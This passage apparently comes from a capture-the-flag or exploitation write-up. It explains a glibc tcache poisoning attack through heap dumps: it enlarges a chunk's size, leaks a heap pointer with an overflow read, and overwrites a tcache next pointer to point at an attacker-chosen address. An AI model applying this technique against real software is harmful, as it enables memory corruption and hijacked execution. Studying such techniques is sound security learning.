tcachebins:

```text
(0x20) -> 0x55555556ceb0 -> 0x55555556ce90 (2)
(0x30) -> 0x55555556cf20 -> 0x55555556cef0 (2)
```

Note that `d` points to `c`. By overwriting the size of `b` we can now enlargen it to size `0x90`. This causes `b` to land in the corresponding `0x90` tcachebin.

tcachebins:

```text
(0x20) -> 0x55555556ce90 (2)
(0x30) -> 0x55555556cf20 -> 0x000055555556cef0  (2)
(0x90) -> 0x55555556ceb0 (1)
```

Note that the saved length of the `0x20` bin (i.e. 2) does not correspond to the actual length (i.e. 1). That is not an issue as long as we do not empty the bin. This is why we need the chunk `a`. If `a` did not exist, the next time we would try to create a vector the program would try to allocate the (non-existent) chunk in `0x20`. In that case it would try to allocate space at the address
the previous chunk was pointing at, which is `NULL` per default, resulting in a segfault.

If we now create a vector that would use a chunk from the `0x90` bin (e.g. 12 or 13 elements) we will be assigned the address of `b` since the chunk already exists. (Note: in case of our program, smaller chunks would also be newly created in the process since we build the vectors iteratively. That, however, is no issue as long as the smaller bins are not corrupted. Again, the existence of `a` is crucial here.) Therefore creating the array `[0xaaa]*11+[0x31]` would change the heap like this:

```text
0x55555556ceb0: 0x0000000000000000 0x0000000000000091
0x55555556cec0: 0x0000000000000aaa 0x0000000000000aaa
0x55555556ced0: 0x0000000000000aaa 0x0000000000000aaa
0x55555556cee0: 0x0000000000000aaa 0x0000000000000aaa
0x55555556cef0: 0x0000000000000aaa 0x0000000000000aaa
0x55555556cf00: 0x0000000000000aaa 0x0000000000000aaa
0x55555556cf10: 0x0000000000000aaa 0x0000000000000031
0x55555556cf20: 0x000055555556cef0 0x000055555555a010
0x55555556cf30: 0x000000000000cccc 0x000000000000cccc

```

Using our overflow read we can now read at `0x55555556cf20`, which gives us the address `0x55555556cef0`, which in turn points to chunk `c` (which was overwritten in the process). Now we can create the array `[0xaaa]*11 +[0x31]+[&maliciousptr]` to overwrite the pointer from `d` to `c` to instead point to `&maliciousptr`.

```text
0x55555556ceb0: 0x0000000000000000 0x0000000000000091
0x55555556cec0: 0x0000000000000aaa 0x0000000000000aaa
0x55555556ced0: 0x0000000000000aaa 0x0000000000000aaa
0x55555556cee0: 0x0000000000000aaa 0x0000000000000aaa
0x55555556cef0: 0x0000000000000aaa 0x0000000000000aaa
0x55555556cf00: 0x0000000000000aaa 0x0000000000000aaa
0x55555556cf10: 0x0000000000000aaa 0x0000000000000031
0x55555556cf20: &maliciousptr      0x000055555555a010
0x55555556cf30: 0x000000000000cccc 0x000000000000cccc
```

